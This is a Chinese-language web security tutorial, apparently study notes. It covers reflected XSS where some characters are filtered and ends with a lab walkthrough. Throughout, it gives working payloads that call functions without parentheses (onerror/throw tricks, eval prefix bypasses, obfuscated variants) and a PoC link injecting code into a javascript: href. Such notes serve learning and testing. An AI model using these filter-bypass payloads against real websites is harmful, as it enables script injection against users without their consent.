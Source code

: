 ### 反射 xss（某些字符被过滤）

一些网站通过限制字符或部署 WAF 增加 XSS 难度，此时可尝试用带异常处理程序的语句绕过：将函数分配给全局异常处理程序，使参数无需括号即可传递给函数，最终实现函数作为参数调用。

```
onerror=alert;throw 1
```

有多种方法使得调用不带括号的函数：[不带括号和分号的 XSS |PortSwigger 研究](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)

**基础原理**：

- `onerror` 是 JavaScript 的全局错误处理器，当未捕获的异常发生时触发
- `throw` 语句抛出异常并将表达式传递给 `onerror`
- 无需括号的执行方式：`onerror=alert; throw 1337` 会触发 `alert(1337)`

```
<script>onerror=alert;throw 1337</script>
```

##### 分括号绕过

使用花括号 {} 创建代码块代替分号。

```
<script>{onerror=alert}throw 1337</script>
```

##### throw 语句的表达式处理

- throw 可接收表达式
- 逗号操作符按顺序执行表达式，返回最后一个值

```
<script>throw onerror=alert,'1337'</script>
```

以上抛出异常的代码都会添加一个前缀：uncaught。

![image-20250531154928876](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250531154928876.png)

##### 前缀绕过

1. 用 `=` 将浏览器自动添加的前缀转为合法 JS 变量：

```
<script>{onerror=eval}throw'=alert\x281337\x29'</script>
```

- 实际执行：`eval("Uncaught=alert(1337)")`

2. Firefox 的对象字面量技术：

```
# 模拟 Error 对象属性控制消息：
<script>
{ 
  onerror = eval 
}
throw {
  lineNumber: 1,     // 必须属性
  columnNumber: 1,   // 必须属性
  fileName: 1,       // 必须属性
  message: 'alert(1)'// 主消息
}
</script>

# 多参数传递：
<script>
{ 
  onerror = prompt 
}
throw {
  lineNumber: 1,
  columnNumber: 1,
  fileName: '默认文本',  // prompt 的第二个参数
  message: '提示消息'    // prompt 的显示内容
}
</script>
```

##### 高级混淆技术

@terjanq 的无字符串字面量技术：

```
<script>
throw /a/, 
      Uncaught = 1, 
      g = alert, 
      a = URL + 0,       // "function URL() { [native code] }0"
      onerror = eval,
      /1/g + a[12] + [1337] + a[13]  // a[12]="(", a[13]=")"
</script>
```

Pepe Vila 的无 throw 技术：

```
<script>
TypeError.prototype.name = '=/';  // 修改错误类型名称
0[onerror=eval]['/-alert(1)//']  // 触发类型错误
</script>
```

### 实验（throw 表达式 + 函数劫持）（上下文环境：允许 url 编码的 js 代码环境）

```
# 发送 GET /post?postId=5 请求。
# 发现响应页面 js 脚本：
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5'}).finally(_ => window.location = '/')">
# url 解码后：
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=5'}).finally(_ => window.location = '/')">

# 脚本在 body 这个位置存在用户输入的反射。
```

如上可以看到：

1. 服务器接收到  GET /post?postId=5 请求。
2. 将 /post?postId=5 （path 部分）进行特殊字符的 url 编码嵌入到相应页面的 a 标签的 href 属性中。
3. 当你点击 a 标签链接时，浏览器自动 url 解析 a 标签的 href 属性，并保持特殊字符的原有功能。
4. 而上述 a 标签的 href 属性是 js 代码，这就允许 js 代码中的特殊字符都可以进行 url 编码。

注意：a 标签的 href 属性会被浏览器进行 url 解析，而且解析后的特殊字符，仍保持原有的符号功能。

![image-20250531161552444](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250531161552444.png)

```
# 输入如下 path
/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'

# 服务器自动返回编码的 url 数据。
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window+%27%27,{x%3a%27'}).finally(_ => window.location = '/')">

# 由于 a 标签 href 属性能自动解析 url 编码，所以里面的所有 url 编码的特殊字符都可作为 js 代码的一部分。 
<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_ => window.location = '/')">
```

注入后的代码执行逻辑：

```
fetch('/analytics', {method:'post',body:'/post?postId=5&'},
  x=x=>{throw/**/onerror=alert,1337},  // 第三个参数（被 fetch 忽略，但表达式会执行）
  toString=x,                         // 第四个参数（被忽略）
  window+'',                          // 第五个参数（被忽略）
  {x:''}                              // 第六个参数（被忽略）
).finally(_ => window.location = '/')
```

js 会先计算所有传入的参数值，再调用 `fetch` 函数。因此，即使 `fetch` 只使用前两个参数，后面的参数表达式（如箭头函数、`window+''`）也会被执行。

1. 定义函数 x，x 函数用于抛出异常。
2. 触发 x 函数：
   - 将 toString 函数劫持到 x 函数。
   - 触发 toSting 字符串连接。

poc：

```
<!DOCTYPE html>
<html>
 <head>
</head>
<body>

<a href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_ => window.location = '/')">click me</a>

</body>
</html>
```

```
# url 编码的 href
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window+%27%27,{x%3a%27'}).finally(_ => window.location = '/')">click me</a>

# 即使是全编码的 js 代码，也可以执行。但 javascript: 协议头不能编码。
<a href="javascript:%66%65%74%63%68%28%27%2f%61%6e%61%6c%79%74%69%63%73%27%2c%20%7b%6d%65%74%68%6f%64%3a%27%70%6f%73%74%27%2c%62%6f%64%79%3a%27%2f%70%6f%73%74%3f%70%6f%73%74%49%64%3d%35%26%27%7d%2c%78%3d%78%3d%3e%7b%74%68%72%6f%77%2f%2a%2a%2f%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%2c%31%33%33%37%7d%2c%74%6f%53%74%72%69%6e%67%3d%78%2c%77%69%6e%64%6f%77%2b%27%27%2c%7b%78%3a%27%27%7d%29%2e%66%69%6e%61%6c%6c%79%28%5f%20%3d%3e%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%27%2f%27%29">click me</a>
```

![image-20250531164442021](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/XSS%20%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB/images/image-20250531164442021.png)

注：以上 url 编码适用于拼接原有的 js 代码场景，但不适用于 `javascript` 字符串被过滤，来完全构造 js 代码场景。

因为 `javascript:` 不能进行 url 编码，否则浏览器解析不到协议头，执行不了后续的 js 代码。